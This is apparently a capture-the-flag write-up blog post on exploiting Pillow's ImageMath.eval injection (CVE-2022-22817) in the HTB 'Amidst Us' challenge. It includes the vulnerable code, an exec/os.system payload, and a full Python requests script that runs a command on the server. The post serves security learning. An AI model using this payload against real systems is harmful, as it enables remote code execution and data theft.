```yaml
---
layout: post
title:  "HTB CTF - Amidst Us writeup"
date:   2022-05-20 08:30:00
tags: ["ctf-writeup"]
author: "Alex Ward"
---
```


On starting the container and visiting the site you are greeted
with a dark site with a "flash light" effect. Functionality is
limited, you can select a colour, and upload a file.

Inspecting the source there is a route `/api/alphafy` that accepts
some JSON, expected in the following format:

<!--more-->

```json
{
    "image": "string",
    "background": "array"
}
```

The vulnerability appears to be in the `ImageMath.eval` function
call in `make_alpha`:

```python
def make_alpha(data):
	color = data.get('background', [255,255,255])

	try:
		dec_img = base64.b64decode(data.get('image').encode())

		image = Image.open(BytesIO(dec_img)).convert('RGBA')
		img_bands = [band.convert('F') for band in image.split()]
		alpha = ImageMath.eval(
			f'''float(
				max(
				max(
					max(
					difference1(red_band, {color[0]}),
```

[CVE-2022-22817](https://security.snyk.io/vuln/SNYK-PYTHON-PILLOW-2331901)

There isn't any sanitising on the `"background"` input, so we can
use this for injecting a string into the eval function.

After finding a [valid tiny base64 encoded png](https://stackoverflow.com/a/36610159/7220776)
for the `"image"` input, it was time to craft a payload.

Tesing locally I had

```python
"exec(\"import os; os.system(\'cat ../flag.txt > ./application/static/uploads/flag.txt\');\")"
```

but it was causing the flask process to crash with a seg fault...

I tried my luck on the remote container, and thankfully there was a
restart policy in place, and the container came back up with the flag
where I wanted it.


```python
import requests

TARGET_HOST = "<host>:<port>"

res = requests.post(
    url=f"http://{TARGET_HOST}/api/alphafy",
    headers={
        "Content-Type": "application/json"
    },
    json={
        "image": "iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAQAAAC1HAwCAAAAC0lEQVQYV2NgYAAAAAMAAWgmWQ0AAAAASUVORK5CYII=",
        "background": [
            "exec(\"import os; os.system(\'cat /flag.txt > ./application/static/uploads/flag.txt\');\")", 255, 255]
    }
)
```
